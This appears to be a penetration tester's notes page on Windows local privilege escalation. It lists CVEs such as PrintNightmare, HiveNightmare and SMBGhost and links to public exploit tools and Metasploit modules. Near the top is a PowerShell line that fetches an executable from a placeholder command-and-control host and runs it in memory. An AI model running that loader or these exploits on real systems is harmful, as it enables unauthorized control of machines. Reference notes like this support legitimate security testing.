 ```yaml
---
title: Privilege Escalation Exploits
---
```


[[notes/windows/escalation]] trough local exploits.

Detect LPEs due to missing patches.

=== "[[notes/tools/moriarty]]"
    ~~~ powershell
    $a=[System.Reflection.Assembly]::Load([byte[]](iwr -useb 'https://c2.attacker.com/moriarty.exe' | Select-Object -ExpandProperty Content))
    [Moriarty.Program]::Main()
    ~~~

# Local Privilege Escalation in Lenovo System Updater / CVE-2023–4632

Lenovo Updater up to and including version 5.08.01.0009 is vulnerable to arbitrary file write.

References:

- [CVE-2023–4632: Local Privilege Escalation in Lenovo System Updater](http://web.archive.org/web/20231026182546/https://scribe.rip/@specterops/cve-2023-4632-local-privilege-escalation-in-lenovo-system-updater-2762e9667120)

# SuperProfile User Profile / [CVE-2022-26904](https://www.opencve.io/cve/CVE-2022-26904)

Exploit with Metasploit [exploit/windows/local/cve_2022_26904_superprofile](https://github.com/rapid7/metasploit-framework/pull/16382).

# CallbackHell / [CVE-2021-40449](https://www.opencve.io/cve/CVE-2021-40449)

Exploit with [ly4k/callbackhell/](https://github.com/ly4k/CallbackHell).

# InstallerFileTakeOver / [CVE-2021-41379](https://www.opencve.io/cve/CVE-2021-41379)

Exploit with [klinix5/installerfiletakeover](https://github.com/klinix5/installerfiletakeover).

# Hive Nightmare / Summer of SAM / [CVE-2021-36934](https://www.opencve.io/cve/CVE-2021-36934)

Read SAM registry hive trough a shadow copy.

# PrintNightmare / [CVE-2021-1675](https://www.opencve.io/cve/CVE-2021-1675)

Exploit with [calebstewart/cve-2021-1675](https://github.com/calebstewart/CVE-2021-1675/).

# Perfusion

Exploit with [itm4n/perfusion](https://github.com/itm4n/perfusion) on Windows 7, Windows 8, Windows Server 2008 R2 and Windows Server 2012.

# SMBGhost / [CVE-2020-0796](https://www.opencve.io/cve/CVE-2020-0796)

Exploit with Metasploit `exploit/windows/local/cve_2020_0796_smbghost` or [danigargu/cve-2020-0796](https://github.com/danigargu/cve-2020-0796).

References:

- [Exploiting SMBGhost for a local privilege escalation: Writeup + POC](http://web.archive.org/web/20221206220055/https://blog.zecops.com/research/exploiting-smbghost-cve-2020-0796-for-a-local-privilege-escalation-writeup-and-poc/)
